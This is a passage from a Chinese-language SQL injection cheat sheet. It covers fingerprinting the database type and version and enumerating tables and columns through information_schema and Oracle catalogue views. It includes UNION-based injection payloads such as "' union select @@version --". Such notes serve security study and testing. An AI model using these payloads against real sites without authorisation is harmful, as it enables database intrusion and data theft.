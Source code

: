 **不同数据库语句各有不同** 详情见不同数据库备忘单

## 0x05 获取数据库信息
### 1.查询数据库类型和版本
|Database type|Query|
|----|----|
|Microsoft, MySQL|SELECT @@version|
|Oracle|SELECT * FROM v$version|
|PostgreSQL|SELECT version()|
可以使用union查询这部分信息，例：  
' union select @@version --
' union select banner from v$version--

**除此之外还可以根据数据库之间的差异特征判断**
#### 1.1 根据报错内容判断
例:
>Microsoft JET Database Engine是access
>ODBC SQL Server是MSSSQL
#### 1.2 基于特定函数的判断
例：
>len和length  
>在mssql等，是len()函数,mysql中使用length()  
>substring和substr  
>等
#### 1.3 基于符号判断
例：
````
oracle不支持/* */注释
mysql可以#注释
oracle和mysql都不支持用;多行查询
连接符也都不同
````
#### 1.4 基于特殊表判断
````
oracle有sys.user_tables表 (而且语句必须有from，常用的dual）
MSSQL有sysobjects表
access有msysobjects表
mysql>5.0有information_schema表
````
### 2.列出数据库内容
现代数据库都以一个内建表来存数据库的表名列明等信息information_schema oracle中叫all_tables
利用information_schema查看表名
````sql
#mysql等
SELECT * FROM information_schema.tables      --查看全部表信息

select table_name from information_schema.tables where table_schema='库名'                         --查看指定库中表

SELECT * FROM information_schema.columns WHERE table_name = '列名'  --查看列信息

select column_name from information_schema.columns where table_schema='库名' and table_name='表名'   --查看列

````
````sql
--oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = '表名'
````